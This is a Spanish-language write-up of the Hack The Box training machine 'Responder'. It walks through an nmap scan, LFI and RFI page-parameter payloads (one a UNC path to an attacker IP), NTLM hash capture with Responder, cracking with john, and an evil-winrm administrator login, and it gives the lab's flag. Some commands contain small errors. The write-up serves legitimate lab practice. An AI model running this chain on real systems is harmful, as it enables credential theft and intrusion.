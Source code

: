 ```yaml
---
title: Máquina Responder
published: true
---
```


Jorge Marco Arráez

He estado unos dias intentando la máquina Timelapse, pero he llegado a un punto en el que me he estancado. Tengo que aprender como usar las debilidades de winrm para poder continuar. Mientras tanto, continuo con el starting point que ya estoy empezando la fase 2.

## [](#header-3) 1)   How many TCP ports are open on the machine? 

Con el parámero -sS le digo que haga un escaneo TCP/SYN porque al ser una máquina windows agiliza el proceso, con -n le indico que no quiero que haga resolución por dns para que vaya más rápido, con min-rate especifico la minima cantidad de paquetes que quiero que emita por segundo. -p- es para que escanee todos los puertos y -Pn para que detecte la máquina si o sí.
```
nmap -sS -n --min-rate 5000 -p- -Pn $IP
```

3

## [](#header-3) 2)    When visiting the web service using the IP address, what is the domain that we are being redirected to? 

He tenido que editar el archivo /etc/hosts porque se estaba aplicando virtual hosting, con añadir "$IP  unika.htb" ya he podido acceder a la página

unika.htb


## [](#header-3) 3)   Which scripting language is being used on the server to generate webpages? 

php

## [](#header-3) 4)   What is the name of the URL parameter which is used to load different language versions of the webpage? 

page

## [](#header-3) 5)   Which of the following values for the page parameter would be an example of exploiting a Local File Include (LFI) vulnerability: "french.html", "//10.10.14.6/somefile", "../../../../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe" 

```
../../../../../../../../windows/system32/drivers/etc/hosts
```

## [](#header-3) 6)   Which of the following values for the page parameter would be an example of exploiting a Remote File Include (RFI) vulnerability: "french.html", "//10.10.14.6/somefile", "../../../../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe" 

//10.10.14.6/somefile

## [](#header-3) 7)    What does NTLM stand for? 

new technology lan manager

## [](#header-3) 8)   Which flag do we use in the Responder utility to specify the network interface? 

Para que el programa pudiese funcionar, he tenido que matar algunos procesos que estaban ocurriendo en el puerto 445 y 139. Con:

```
sudo kill -9 `sudo lsof -t -i:139`
sudo kill -9 `sudo lsof -t -i:445`
responder -I tun0 -w -d 
```

-I

## [](#header-3) 9)  There are several tools that take a NetNTLMv2 challenge/response and try millions of passwords to see if any of them generate the same response. One such tool is often referred to as `john`, but the full name is what?. 

john the ripper

## [](#header-3) 10)  What is the password for the administrator user? 
```
john -w=/opt/wordlist/rockyout.txt hash.txt
```
badminton

## [](#header-3) 11)  We'll use a Windows service (i.e. running on the box) to remotely access the Responder machine using the password we recovered. What port TCP does it listen on? 

5985

## [](#header-3) 12)  Submit root flag 

```
evil-winrm -i 10.129.93.222 -u administrator -p badminton
ls
cd C:\Users
ls
cd mike
ls
cd Desktop
ls
text flag.txt
```

```
ea81b7afddd03efaa0945333ed147fac
```